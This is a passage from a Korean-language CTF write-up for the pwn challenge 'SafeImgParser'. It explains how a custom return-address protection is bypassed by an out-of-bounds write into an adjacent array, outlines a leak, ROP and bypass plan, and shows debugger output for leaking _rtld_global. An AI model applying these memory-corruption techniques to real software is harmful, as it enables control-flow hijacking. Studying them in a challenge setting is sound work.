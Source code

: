```c
        }
    }
}
```

함수가 시작 할 때는, 메인 함수에 있는 배열인 addr 에 리턴주소 하위 1바이트를 오프셋으로 사용해 해당 위치의 값을 1로 업데이트 하고, 리턴주소를 secret 값과 8byte XOR 연산을 수행합니다.
함수가 끝날 때는, 리턴주소를 먼저 secret 값과 8byte XOR 연산을 수행한 뒤, 하위 1바이트가 `addr` 배열에 있는지 검사합니다.

```c
    unsigned char addr[0x100];
    memset(addr, 0, 0x100);
    unsigned char buf[0x1000];
```

하지만 addr, buf (이미지 입력값) 은 인접해 있기 때문에 `OOB write primitive` 를 사용해 addr 배열의 특정 오프셋을 1로 설정함으로써 우회가 가능합니다.
최종 익스플로잇 흐름은 다음과 같습니다. 

1. leak `_rtld_global`
2. build rop chain
3. bypass SHIELD macro

`1. leak _rtld_global`

```
   0x0000555555555baf <+159>:	lea    rdx,[rbp-0x1110]
   0x0000555555555bb6 <+166>:	lea    rax,[rbp-0x1010]
   0x0000555555555bbd <+173>:	mov    rsi,rdx
   0x0000555555555bc0 <+176>:	mov    rdi,rax
=> 0x0000555555555bc3 <+179>:	call   0x555555555a21 <process(unsigned char*, unsigned char*)>
```

- buf 주소 = `rbp-0x1010`
- addr 주소 = `rbp-0x1110`

```
gef➤  tel $rbp-0x1010+0x1050
0x007fffffffe4f0│+0x0000: 0x007fffffffe5c8  →  0x007fffffffe81a  →  "/pwn/SafeImgParser/prob/for_organizer/safeimgparse[...]"
0x007fffffffe4f8│+0x0008: 0x00555555555b10  →  <main+0> endbr64
0x007fffffffe500│+0x0010: 0x00555555557d50  →  0x005555555552c0  →  <__do_global_dtors_aux+0> endbr64
0x007fffffffe508│+0x0018: 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x00555555554000  →   jg 0x555555554047 <= _rtld_global
0x007fffffffe510│+0x0020: 0xfbe3596d2e2f0ed1
0x007fffffffe518│+0x0028: 0xfbe34925fd270ed1
0x007fffffffe520│+0x0030: 0x00007fff00000000
0x007fffffffe528│+0x0038: 0x0000000000000000
0x007fffffffe530│+0x0040: 0x0000000000000000
0x007fffffffe538│+0x0048: 0x0000000000000000
gef➤  xinfo 0x007ffff7ffd040
...
Symbol: _rtld_global
```
